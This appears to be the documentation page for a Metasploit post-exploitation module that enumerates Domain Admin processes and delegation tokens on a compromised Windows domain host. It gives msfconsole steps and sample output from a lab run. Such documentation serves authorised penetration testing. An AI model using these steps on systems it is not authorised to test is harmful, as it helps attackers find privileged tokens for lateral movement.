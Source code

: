 ## Vulnerable Application

This module enumerates Domain Admin account processes and delegation tokens.

This module will first check if the session has sufficient privileges
to replace process level tokens and adjust process quotas.

The SeAssignPrimaryTokenPrivilege privilege will not be assigned if
the session has been elevated to SYSTEM. In that case try first
migrating to another process that is running as SYSTEM.


## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a Windows target on a domain
1. Do: `use post/windows/gather/enum_tokens`
1. Do: `set session [#]`
1. Do: `run`
1. You should receive a list of Domain Admin account processes and delegation tokens


## Options

### GETSYSTEM

Attempt to get SYSTEM privilege on the target host. (default: `true`)


## Scenarios

### Local Administrator session on Windows Server 2008 SP1 (x64)

```
msf6 post(windows/gather/enum_tokens) > set session 1
session => 1
msf6 post(windows/gather/enum_tokens) > set getsystem false
getsystem => false
msf6 post(windows/gather/enum_tokens) > run

[*] Running module against WIN-17B09RRRJTG (192.168.200.218)
[+] Found token for session 1 (192.168.200.218) - Administrator (Delegation Token)
[+] Found process on session 1 (192.168.200.218) - Administrator (PID: 3344) (cmd.exe)
[+] Found process on session 1 (192.168.200.218) - Administrator (PID: 2420) (calc.exe)
[+] Found process on session 1 (192.168.200.218) - Administrator (PID: 2220) (reverse.x64.1337.exe)
[+] Found token for session 1 (192.168.200.218) - corpadmin (Delegation Token)
[+] Found process on session 1 (192.168.200.218) - corpadmin (PID: 1764) (cmd.exe)
[*] Post module execution completed
```

